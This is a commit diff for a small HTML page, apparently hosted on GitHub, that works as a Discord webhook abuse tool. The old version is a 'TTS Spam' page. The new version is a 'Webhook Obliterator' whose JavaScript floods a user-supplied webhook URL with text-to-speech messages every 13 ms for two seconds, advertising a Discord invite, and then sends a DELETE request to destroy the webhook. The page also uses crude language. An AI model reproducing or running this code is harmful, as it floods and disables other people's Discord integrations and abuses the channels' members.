

Before and after one commit to ivorydevrimoalt/weebhockey, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-912 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,77 +1,68 @@
 <!DOCTYPE html>
 <html>
 <head>
-<title>Webhook Fucker</title>
-<style>
-body {
-  font-family: sans-serif;
-  display: flex;
-  flex-direction: column;
-  align-items: center;
-  justify-content: center;
-  height: 100vh;
-  margin: 0;
-}
-
-input[type="text"] {
-  padding: 10px;
-  margin: 10px;
-  width: 300px;
-}
-
-button {
-  padding: 10px 20px;
-  background-color: #7289da;
-  color: white;
-  border: none;
-  cursor: pointer;
-}
-</style>
+  <title>DWOM </title>
 </head>
 <body>
-  <h1>Discord Webhook TTS Spam</h1>
-  <input type="text" id="webhookUrl" placeholder="Enter Discord Webhook URL">
-  <button onclick="sendWebhook()">Send Message</button>
+  <h1>(Discord Webhook Obliterator, Mobile Compatible)</h1>
+  <label for="webhookUrl">Discord Webhook URL:</label>
+  <input type="text" id="webhookUrl" name="webhookUrl"><br><br>
+  <button onclick="spamWebhook()">FUCK IT NOEWWAE!!!1!111!!</button>
 
   <script>
-    async function sendWebhook() {
-      const webhookUrl = document.getElementById("webhookUrl").value;
-      const message = {
-        content: "GO TO https://discord.gg/DDzqecnvRM AND NEVER BE RACIST",
-        tts: true,
-      };
+    async function spamWebhook() {
+      const webhookUrl = document.getElementById('webhookUrl').value;
+      const message = "GO TO https://discord.gg/DDzqecnvRM AND NEVER BE RACIST, NEVER SCAM THE RAS TEAM";
 
       if (!webhookUrl) {
         alert("Please enter a webhook URL.");
         return;
       }
 
-      const startTime = performance.now();
-      let count = 0;
-
-      while(performance.now() - startTime < 13) {
-
-        try{
+      async function sendMessage() {
+        try {
           const response = await fetch(webhookUrl, {
-            method: "POST",
+            method: 'POST',
             headers: {
-              "Content-Type": "application/json",
+              'Content-Type': 'application/json',
             },
-            body: JSON.stringify(message),
+            body: JSON.stringify({
+              content: message,
+              tts: true,
+            }),
           });
 
           if (!response.ok) {
-            console.error(`Webhook failed. Status: ${response.status}`);
-            return;
+            console.error(`Failed to send message: ${response.status} ${response.statusText}`);
           }
         } catch (error) {
-          console.error("Error sending webhook:", error);
-          return;
+          console.error("Error sending message:", error);
         }
+      }
 
-        count++;
+      async function deleteWebhook() {
+          try {
+              const response = await fetch(webhookUrl, {
+                  method: 'DELETE',
+              });
+              if (!response.ok) {
+                  console.error(`Failed to delete webhook: ${response.status} ${response.statusText}`);
+              } else {
+                console.log("webhook deleted")
+              }
+          } catch(error) {
+              console.error("Error deleting webhook:", error);
+          }
       }
-      console.log(`Sent ${count} messages in under 13 milliseconds.`);
+
+      const interval = 13; // milliseconds
+      let spamInterval = setInterval(sendMessage, interval);
+
+      setTimeout(async () => {
+        clearInterval(spamInterval);
+        await deleteWebhook();
+
+      }, 2000); // 2 seconds
     }
   </script>
 </body>
```
